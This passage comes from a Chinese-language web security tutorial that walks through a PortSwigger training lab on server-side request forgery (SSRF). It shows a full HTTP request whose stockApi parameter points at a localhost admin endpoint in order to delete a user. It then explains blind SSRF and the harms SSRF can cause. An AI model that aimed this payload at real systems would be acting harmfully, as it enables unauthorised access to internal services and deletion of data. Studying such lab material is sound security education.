 发送报文后，我们惊喜地观察到页面下方确实暴露出来了Web应用的管理页面。接着尝试点击Delete按钮，去删除用户，可是发现收到的响应如下：

![图片](https://static001.geekbang.org/resource/image/69/d7/69e8c984ed71a30b5baebe32feab39d7.png?wh=955x295)

我们可以看到，该请求被拒绝了，这是因为Web应用对管理接口进行了边界限制，不允许外网用户在非管理员登录状态下对其进行访问。于是，我想起了**利用SSRF方式穿越这一边界**。

![图片](https://static001.geekbang.org/resource/image/e1/76/e159061e6f0ae69f180ebb43637c3276.png?wh=813x291)

首先我们查看删除按钮对应的链接，接着再次点击检查库存，将捕获到报文中的接口改为删除所对应的链接。

```plain
POST /product/stock HTTP/1.1
Host: ac0d1ffb1e4f89bac00a8de300fb00d4.web-security-academy.net
Cookie: session=6yXqSaAliJJjyWYmdK8kQfAeMSoMxoYt; session=WjZYVShyY7v3E3tfhT55IGh0hmVYXyAA
Content-Length: 107
Sec-Ch-Ua: "Chromium";v="95", ";Not A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://ac0d1ffb1e4f89bac00a8de300fb00d4.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://ac0d1ffb1e4f89bac00a8de300fb00d4.web-security-academy.net/product?productId=3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

stockApi=http://localhost/admin/delete?username=carlos
```

这样，我们发现用户carlos就被我们成功删除了，我们通过利用该应用的服务器发起了删除的请求，从而绕过了边界对我们行为的限制。

在这个示例中，我们使用SSRF攻击对Web应用的本地服务器进行了操作。但事实上，我们还可以对内网中的服务器进行攻击，例如我知道内网中的一个地址，我们想要利用SSRF攻击对其进行操作，**只需要将localhost改为它的内网地址即可**。

学习完这个典型的SSRF漏洞之后，我们还需要学习SSRF中一个特殊的类别——Blind SSRF漏洞。

### Blind SSRF攻击

当我们可以诱使应用程序向提供的URL发出后端HTTP请求，但后端对于这个HTTP请求的响应未在前端页面展示，这就是Blind SSRF攻击。

一般来说，Blind SSRF漏洞的危害会低于普通SSRF漏洞，因为我们不能轻易利用该漏洞从后端系统检索敏感数据，而是要类似于之前学习的SQL带外注入一样，**通过一些带外的方式将敏感数据输出**。

到这里，你已经明白了SSRF的攻击方式以及原理，接下来我们来学习SSRF攻击可能造成的后果。

## SSRF攻击的危害

SSRF的危险程度其实与Web应用内网的防御强度相关。

由于边界内的内网服务防御相对外网服务来说一般会较弱，甚至部分内网服务出于运维方便的考虑，可能对内网都没有进行访问设置及权限验证，所以存在SSRF时，通常会造成较大的危害。

因此，一般来讲，成功的SSRF攻击可以导致未经授权的访问或操作、实现对内网的扫描以及利用file协议读取内网服务器中的本地文件。除此之外，我们还可以利用SSRF攻击使得Web服务器去请求一个较大的文件，这样就可以对应用的服务器发起DOS攻击。

